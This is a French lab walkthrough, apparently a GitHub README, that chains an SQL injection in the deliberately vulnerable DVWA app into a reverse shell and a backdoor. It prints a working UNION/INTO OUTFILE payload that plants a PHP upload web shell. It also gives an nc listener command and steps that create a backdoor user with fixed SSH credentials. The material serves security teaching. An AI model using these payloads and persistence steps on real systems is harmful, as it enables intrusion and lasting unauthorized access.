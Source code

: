- [Présentation](#présentation)
- [Mise en place de l'environnement](#mise-en-place-de-lenvironnement)
- [Exploitation](#exploitation)
  - [Mise en place du téléversement de fichier](#mise-en-place-du-téléversement-de-fichier)
  - [Obtention du reverse shell](#obtention-du-reverse-shell)
  - [Mise en oeuvre de la porte dérobée](#mise-en-oeuvre-de-la-porte-dérobée)


# Présentation

Dans ce scénario d'attaque, il sera question de l'exploitation d'une vulnérabilité d'injection SQL qui aboutira finalement à l'obtention d'un reverse shell puis, à la mise en place d'une porte dérobée. 

Nous nous sommes servis de l'image docker de l'application vulnérable DVWA pour faire la démonstration. Consulter le [Dockerfile](./Dockerfile) pour appréhender des configurations faites.

Dans notre cas, nous avons utilisé deux machines linux : une machine sur laquelle nous avons déployé l'environnement vulnérable et une machine d'attaque.

# Mise en place de l'environnement 

Pour mettre en place l'environnement vulnérable vous devrez avoir **Docker** installé sur votre machine et une connexion internet.

1. Cloner ce dépôt puis accéder au répertoire **from_sql_injection_to_reverse_shell**. Une fois que vous y êtes, créez l'image docker **sqlInjectionRevShell** en exécutant la commande ci-dessous 
    ```
    docker buildx build -t sql_injection_rev_shell .
    ```
    L'image ci-dessous illustre le résultat que vous devriez obtenir dans votre terminal lors de la construction de l'image.

    ![](./screenshots/image_building.png)

2. Vérifier la présence de l'image que vous venez de constuire en exécutant la commande ci-dessous :
    ```
    docker image ls sql_injection_rev_shell
    ```
     Vous devrez obtenir un résultat similaire à celui, présenté dans l'image ci-dessous.

     ![](./screenshots/check_image.png)

3. A présent nous allons démarrer un conteneur à partir de l'image construite précedement en exécutant la commande ci-dessous :
    ```
    docker run --rm -it -p 8086:80 -p 8089:22 sql_injection_rev_shell
    ```
    Ci-dessous une image qui illustre la sortie de cette commande :

    ![](./screenshots/run_container.png)

    Cette commande utilisera les ports **8086** et **8089** de votre machine pour les services web et ssh exposés respectivement par le conteneur. Vous avez bien-sûr la possibilité de personnaliser ces ports selon les configurations et la disponibilité de ces ports sur votre machine.

4. Accéder à l'interface de l'application à partir de la machine d'attaque en saissant **IP_ADDRESS:8086** dans un navigateur, puis, saisissez les identifiants ci-dessous afin de vous connecter :
    ```
    Username: admin
    Password: password
    ```
    Une fois connecté, défilez vers le bas puis cliquez sur le bouton **Create / Reset Database** illustré par l'image ci-dessous :
    
    ![](./screenshots/reset_button.png)
    
    Une fois fait, patientez jusqu'à ce que la page de connexion se réaffiche puis reconnectez-vous. 

5. Assurez-vous que le niveau de sécurité de DVWA est sur **low** en cliquant sur le bouton **DVWA Security** comme l'illustre l'image ci-dessous : 

    ![](./screenshots/dvwa_security.png)


# Exploitation

## Mise en place du téléversement de fichier

1. Dans la colonne des types de vulnérabilités à gauche de l'interface de l'application choisissez **SQL Injection**
2. Ouvrez le fichier [exploit_file](./exploit_file.txt), copiez son contenu, collez-le dans le champ **User ID** puis, soumettez en cliquant sur le bouton **submit**
     ```
     ' UNION SELECT 1, '<?php if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_FILES["file"])) { move_uploaded_file($_FILES["file"]["tmp_name"], __DIR__ . "/" . $_FILES["file"]["name"]); echo "Fichier téléchargé avec succès."; } ?><form method="post" enctype="multipart/form-data"><input type="file" name="file"><button type="submit">Télécharger</button></form>' INTO OUTFILE '/var/www/html/dvwa/cmd.php' #
     ```

     Cette requête crée un fichier nommé **cmd.php** qui permet de téléverser des fichiers sans aucune vérification dans le répertoire courant.
3. Chargez la page web correspondant au fichier **cmd.php** en saisissant **IP_ADDRESS:8086/dvwa/cmd.php** comme l'illustre l'image ci-dessous :

    ![](./screenshots/cmd_php.png)

4. Ouvrez le fichier [php_reverse_shell.php](./php_reverse_shell.php), défilez complètement vers le bas jusqu'à la ligne numéro 117 et personnalisez les configurations selon l'adresse IP de votre machine d'attaque et le port qui vous convient. 

    ![](./screenshots/ip_port.png)

4. Téléverser les fichiers **[exec_commands.py](./exec_commands.py)** et **[php_reverse_shell.php](./php_reverse_shell.php)** successivement. Le fichier [exec_commands.py](./exec_commands.py) contient le script python qui va nous permettre de créer une porte dérobée sur le système.

## Obtention du reverse shell
1. Ouvrez un terminal sur la machine d'attaque et exécutez la commande ci-dessous en tenant compte du port que vous avez spécifié dans le fichier [php_reverse_shell.php](./php_reverse_shell.php) :
    ```
    nc -lvnp 8080
    ```

    ![](./screenshots/nc_cmd.png)

2. Dans votre navigateur, accédez à la page **IP_ADDRESS:8086/dvwa/php_reverse_shell.php**. La page devrait rester en cours d'exécution et vous obtiendrez le résultat ci-dessous dans le terminal ouvert précédement:

    ![](./screenshots/rev_shell_gained.png)

3. Vous pouvez exécuter les commandes ci-dessous et explorer le système puis passez à l'étape suivante qui est la création de la porte dérobée:

   ```
   ls
   pwd
   ```
   ![](./screenshots/explore.png)

## Mise en oeuvre de la porte dérobée
1. Toujours dans le même répertoire exécuter le fichier [exec_commands.py](./exec_commands.py) :
   ```
   python2.7 exec_commands.py
   ```
   ![](./screenshots/python_exec.png)
2. Ce script crée un compte d'utilisateur avec un mot de passe, et un répertoire home par défaut sur le système. Ci-dessous les identifiants
    ```
    user: remote_user
    password : r€m0t€p@55W0RD
    ```
3.  Ouvrez un autre terminal et connectez-vous par ssh au serveur web vulnérable en utilisant les identifiants ci-dessus :
    ```
    ssh remote_user@192.168.56.1 -p 8089
    ```
    ![](./screenshots/ssh_backdoor.png)











